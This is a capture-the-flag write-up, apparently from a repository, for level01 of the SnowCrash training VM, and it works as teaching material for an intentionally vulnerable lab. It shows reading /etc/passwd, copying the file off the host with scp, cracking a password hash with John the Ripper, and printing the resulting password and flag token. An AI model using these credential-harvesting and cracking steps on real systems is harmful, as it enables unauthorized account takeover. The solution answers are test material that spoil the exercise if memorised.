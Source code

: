# Level01

## Walkthrough

We use the same commands from the previous level, but we don't find any exploitable files.

We browse the system directories until a filename catches our attention: `/etc/passwd`.

```Traditionally, the /etc/passwd file is used to keep track of every registered user that has access to a system.
The /etc/passwd file is a colon-separated file that contains the following information:
  - User name
  - Encrypted password
  - User ID number (UID)
  - User's group ID number (GID)
  - Full name of the user (GECOS)
  - User home directory
  - Login shell
```

We check the content of the file, and we notice that the line for the user **flag01** contains a visible entry for its password.

```bash
level01@SnowCrash:~$ cat /etc/passwd
# [...]
flag00:x:3000:3000::/home/flag/flag00:/bin/bash
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
flag02:x:3002:3002::/home/flag/flag02:/bin/bash
# [...]
```

Unfortunately, the string isn't the current flag, but it still looks like a token that we may be able to crack, with a tool like **john**.

We transfer the file to our local machine using **SCP** in order to analyze it, and pass it to the `john` executable.

```bash
host:~$ scp -P 4242 level01@localhost:/etc/passwd passwd
host:~$ john --show passwd
flag01:abcdefg:3001:3001::/home/flag/flag01:/bin/bash

1 password hash cracked, 0 left
```

```bash
level01@SnowCrash:~$ su flag01
Password: 
Don't forget to launch getflag !
flag01@SnowCrash:~$ getflag
Check flag.Here is your token : f2av5il02puano7naaf6adaaf
```
